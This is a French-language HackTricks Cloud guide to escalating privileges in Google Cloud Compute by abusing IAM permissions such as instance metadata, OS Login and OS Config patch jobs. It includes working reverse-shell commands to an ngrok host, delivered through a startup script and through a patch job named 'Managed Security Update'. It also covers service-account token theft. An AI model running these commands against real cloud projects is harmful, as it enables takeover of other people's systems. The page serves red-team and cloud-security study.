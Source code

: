 # GCP - Compute Privesc

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Compute

Pour plus d'informations sur Compute et VPC (réseau) dans GCP, consultez :

{% content-ref url="../../gcp-services/gcp-compute-instances-enum/" %}
[gcp-compute-instances-enum](../../gcp-services/gcp-compute-instances-enum/)
{% endcontent-ref %}

{% hint style="danger" %}
Notez que pour effectuer toutes les attaques d'escalade de privilèges qui nécessitent de modifier les métadonnées de l'instance (comme ajouter de nouveaux utilisateurs et clés SSH), il est **nécessaire d'avoir des permissions `actAs` sur le SA attaché à l'instance**, même si le SA est déjà attaché !
{% endhint %}

### `compute.projects.setCommonInstanceMetadata`

Avec cette permission, vous pouvez **modifier** les informations de **métadonnées** d'une **instance** et changer les **clés autorisées d'un utilisateur**, ou **créer** un **nouvel utilisateur avec des** permissions sudo. Par conséquent, vous pourrez vous connecter via SSH à n'importe quelle instance VM et voler le compte de service GCP avec lequel l'instance fonctionne.\
Limitations :

* Notez que les comptes de service GCP exécutés dans des instances VM ont par défaut un **champ d'application très limité**
* Vous devrez être **capable de contacter le serveur SSH** pour vous connecter

Pour plus d'informations sur la façon d'exploiter cette permission, consultez :

{% content-ref url="gcp-add-custom-ssh-metadata.md" %}
[gcp-add-custom-ssh-metadata.md](gcp-add-custom-ssh-metadata.md)
{% endcontent-ref %}

Vous pourriez également effectuer cette attaque en ajoutant un nouveau script de démarrage et en redémarrant l'instance :
```bash
gcloud compute instances add-metadata my-vm-instance \
--metadata startup-script='#!/bin/bash
bash -i >& /dev/tcp/0.tcp.eu.ngrok.io/18347 0>&1 &'

gcloud compute instances reset my-vm-instance
```
### `compute.instances.setMetadata`

Cette permission donne les **mêmes privilèges que la permission précédente** mais sur des instances spécifiques au lieu d'un projet entier. Les **mêmes exploits et limitations que pour la section précédente s'appliquent**.

### `compute.instances.setIamPolicy`

Ce type de permission vous permettra de **vous accorder un rôle avec les permissions précédentes** et d'escalader les privilèges en les abusant.

### **`compute.instances.osLogin`**

Si **OSLogin est activé dans l'instance**, avec cette permission vous pouvez simplement exécuter **`gcloud compute ssh [INSTANCE]`** et vous connecter à l'instance. Vous **n'aurez pas de privilèges root** à l'intérieur de l'instance.

{% hint style="success" %}
Pour vous connecter avec succès avec cette permission à l'intérieur de l'instance VM, vous devez avoir la permission `iam.serviceAccounts.actAs` sur le SA attaché à la VM.
{% endhint %}

### **`compute.instances.osAdminLogin`**

Si **OSLogin est activé dans l'instance**, avec cette permission vous pouvez simplement exécuter **`gcloud compute ssh [INSTANCE]`** et vous connecter à l'instance. Vous aurez **des privilèges root** à l'intérieur de l'instance.

{% hint style="success" %}
Pour vous connecter avec succès avec cette permission à l'intérieur de l'instance VM, vous devez avoir la permission `iam.serviceAccounts.actAs` sur le SA attaché à la VM.
{% endhint %}

### `compute.instances.create`,`iam.serviceAccounts.actAs, compute.disks.create`, `compute.instances.create`, `compute.instances.setMetadata`, `compute.instances.setServiceAccount`, `compute.subnetworks.use`, `compute.subnetworks.useExternalIp`

Il est possible de **créer une machine virtuelle avec un compte de service assigné et de voler le token** du compte de service en accédant aux métadonnées pour escalader les privilèges.

Le script d'exploit pour cette méthode peut être trouvé [ici](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/blob/master/ExploitScripts/compute.instances.create.py).

### `osconfig.patchDeployments.create` | `osconfig.patchJobs.exec`

Si vous avez les **permissions `osconfig.patchDeployments.create`** ou **`osconfig.patchJobs.exec`**, vous pouvez créer un [**travail de patch ou un déploiement**](https://blog.raphael.karger.is/articles/2022-08/GCP-OS-Patching). Cela vous permettra de vous déplacer latéralement dans l'environnement et d'obtenir une exécution de code sur toutes les instances de calcul au sein d'un projet.

Notez qu'à l'heure actuelle, vous **n'avez pas besoin de la permission `actAs`** sur le SA attaché à l'instance.

Si vous souhaitez exploiter cela manuellement, vous devrez créer soit un [**travail de patch**](https://github.com/rek7/patchy/blob/main/pkg/engine/patches/patch_job.json) **ou** [**un déploiement**](https://github.com/rek7/patchy/blob/main/pkg/engine/patches/patch_deployment.json)**.**\
Pour un travail de patch, exécutez : 

{% code overflow="wrap" %}
```python
cat > /tmp/patch-job.sh <<EOF
#!/bin/bash
bash -i >& /dev/tcp/0.tcp.eu.ngrok.io/18442 0>&1
EOF

gsutil cp /tmp/patch-job.sh gs://readable-bucket-by-sa-in-instance/patch-job.sh

# Get the generation number
gsutil ls -a gs://readable-bucket-by-sa-in-instance

gcloud --project=$PROJECT_ID compute os-config patch-jobs execute \
--instance-filter-names=zones/us-central1-a/instances/<instance-name> \
--pre-patch-linux-executable=gs://readable-bucket-by-sa-in-instance/patch-job.sh#<generation-number> \
--reboot-config=never \
--display-name="Managed Security Update" \
--duration=300s
```
{% endcode %}

Pour déployer un déploiement de correctif :
```bash
gcloud compute os-config patch-deployments create <name> ...
```
L'outil [patchy](https://github.com/rek7/patchy) pouvait être utilisé dans le passé pour exploiter cette mauvaise configuration (mais maintenant, il ne fonctionne plus).

**Un attaquant pourrait également en abuser pour la persistance.**

### `compute.machineImages.setIamPolicy`

**Accordez-vous des permissions supplémentaires** pour l'image de calcul.

### `compute.snapshots.setIamPolicy`

**Accordez-vous des permissions supplémentaires** pour un instantané de disque.

### `compute.disks.setIamPolicy`

**Accordez-vous des permissions supplémentaires** pour un disque.

### Contourner les portées d'accès

En suivant ce lien, vous trouverez quelques [**idées pour essayer de contourner les portées d'accès**](../).

### Élévation de privilèges locale dans une instance GCP Compute

{% content-ref url="../gcp-local-privilege-escalation-ssh-pivoting.md" %}
[gcp-local-privilege-escalation-ssh-pivoting.md](../gcp-local-privilege-escalation-ssh-pivoting.md)
{% endcontent-ref %}

## Références

* [https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/](https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/)

{% hint style="success" %}
Apprenez et pratiquez le hacking AWS :<img src="../../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Apprenez et pratiquez le hacking GCP : <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Soutenir HackTricks</summary>

* Consultez les [**plans d'abonnement**](https://github.com/sponsors/carlospolop) !
* **Rejoignez le** 💬 [**groupe Discord**](https://discord.gg/hRep4RUj7f) ou le [**groupe telegram**](https://t.me/peass) ou **suivez-nous sur** **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Partagez des astuces de hacking en soumettant des PRs aux** [**HackTricks**](https://github.com/carlospolop/hacktricks) et [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) dépôts github.

</details>
{% endhint %}
